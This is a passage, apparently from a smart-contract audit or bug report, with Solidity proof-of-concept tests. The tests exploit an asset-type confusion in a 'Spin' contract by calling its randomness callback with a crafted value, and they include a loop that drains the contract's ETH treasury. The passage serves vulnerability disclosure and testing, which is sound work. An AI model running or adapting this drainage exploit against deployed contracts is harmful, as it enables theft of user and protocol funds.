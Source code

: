 ```solidity
    );
    
    uint256 preUser = attacker.balance;
    uint256 preSpin = address(spin).balance;
    
    // 5. Execute spin with crafted RNG for Plume Token reward
    spin.startSpin{value: spin.spinPrice()}();
    
    uint256[] memory rng = new uint256[](1);
    rng[0] = 100_000; // > jackpotThreshold but <= plumeTokenThreshold = Plume Token reward
    
    // 6. Execute malicious VRF callback
    spin.handleRandomness(123, rng);
    
    uint256 postUser = attacker.balance;
    uint256 postSpin = address(spin).balance;
    
    // 7. Verify asset-type confusion
    (,,,,,, uint256 plumeTokens) = spin.getUserData(attacker);
    
    // Attacker received 1 ETH (not PLUME tokens)
    assertEq(postUser, preUser - spin.spinPrice() + 1 ether, "Should receive 1 ETH");
    assertEq(postSpin, preSpin + spin.spinPrice() - 1 ether, "Contract should lose 1 ETH");
    assertEq(plumeTokens, 1 ether, "Internal accounting shows PLUME tokens");
}
```

### PoC Results
```
[PASS] testPoCCriticalSpinWrongAsset() (gas: 244,511)
- Initial contract balance: 50 ETH
- Attacker received: 1 ETH (native)
- Internal plumeTokens counter: 1 ETH (incorrect accounting)
- Asset-type confusion confirmed
- ETH drainage capability demonstrated
- Tested on Solidity 0.8.25
```

### Multi-Spin Drainage Simulation
```solidity
function testMultiSpinDrainage() public {
    // Demonstrates repeated exploitation until treasury depletion
    uint256 initialTreasury = 50 ether;
    uint256 totalDrained = 0;
    
    for (uint256 i = 0; i < 20; i++) {
        if (address(spin).balance < 3 ether) break;
        
        // Execute spin with Plume Token reward RNG
        spin.startSpin{value: spin.spinPrice()}();
        uint256[] memory rng = new uint256[](1);
        rng[0] = 100_000;
        spin.handleRandomness(200 + i, rng);
        
        totalDrained += 1 ether; // Each spin drains 1 ETH
    }
    
    assertTrue(totalDrained >= 10 ether, "At least 10 ETH drained");
}
```
